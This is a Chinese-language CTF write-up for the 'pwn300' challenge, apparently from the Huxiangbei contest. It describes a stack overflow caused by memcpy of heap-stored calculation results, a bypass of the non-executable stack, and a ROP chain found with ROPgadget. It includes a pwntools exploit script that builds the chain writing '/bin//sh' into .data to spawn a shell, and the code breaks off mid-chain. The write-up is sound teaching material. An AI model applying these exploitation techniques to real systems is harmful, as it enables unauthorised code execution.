 这个题目很有意思，首先开辟一个3到255大小的堆空间，然后做加减乘除的计算之后把计算结果放入堆中，最后可以把所有的计算结果用memcpy函数全部放入函数的临时变量v5中也就是栈中，这样就会造成栈溢出
先运行一下程序看一下这个程序干了啥：

![](https://ae01.alicdn.com/kf/HTB1BsDVaHj1gK0jSZFuq6ArHpXan.jpg)

再看看程序开启了哪些保护:

![](https://ae01.alicdn.com/kf/HTB1Sg2TaND1gK0jSZFsq6zldVXar.jpg)

看到这个程序开了栈不可执行，于是肯定就会想到用rop来做
这个题目用ida打开之后发现有很多函数，所以判断这个题目是静态编译的

![](https://ae01.alicdn.com/kf/HTB1ZszTaUT1gK0jSZFhq6yAtVXaY.jpg)

所以可以用http://blog.csdn.net/niexinming/article/details/78259866 中我提到的ROPgadget工具来做，不出意外，很成功的找了完整的rop链

![](https://ae01.alicdn.com/kf/HTB1rcnWaHj1gK0jSZFOq6A7GpXah.jpg)

这个题目还有个难点就是不能直接输入十六进制，所以根据http://blog.csdn.net/niexinming/article/details/78666941 我的这篇文件可以用ctypes.c_int32(0x123).value进行转换
所以我的exp是：

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'niexinming'

from pwn import *
import binascii
import ctypes as ct
from struct import pack

context(terminal = ['gnome-terminal', '-x', 'sh', '-c'], arch = 'i386', os = 'linux', log_level = 'debug')

def debug(addr = '0x08048ff5'):
    raw_input('debug:')
    gdb.attach(io, "b *" + addr)

def base_addr(prog_addr,offset):
    return eval(prog_addr)-offset

elf = ELF('/home/h11p/hackme/huxiangbei/pwn300')

io = process('/home/h11p/hackme/huxiangbei/pwn300')

p=[]

p.append( 0x0806ed0a)  # pop edx ; ret
p.append( 0x080ea060)  # @ .data
p.append( 0x080bb406)  # pop eax ; ret
p.append(eval('0x'+binascii.b2a_hex('nib/')))
p.append( 0x080a1dad)  # mov dword ptr [edx], eax ; ret
p.append( 0x0806ed0a)  # pop edx ; ret
p.append( 0x080ea064)  # @ .data + 4
p.append( 0x080bb406)  # pop eax ; ret
p.append(eval('0x'+binascii.b2a_hex('hs//')))
p.append(0x080a1dad)  # mov dword ptr [edx], eax ; ret
p.append(0x0806ed0a)  # pop edx ; ret
p.append(0x080ea068)  # @ .data + 8
p.append(0x08054730)  # xor eax, eax ; ret
p.append(0x080a1dad)  # mov dword ptr [edx], eax ; ret
p.append(0x080481c9)  # pop ebx ; ret
p.append(0x080ea060)  # @ .data
p.append(0x0806ed31)  # pop ecx ; pop ebx ; ret
```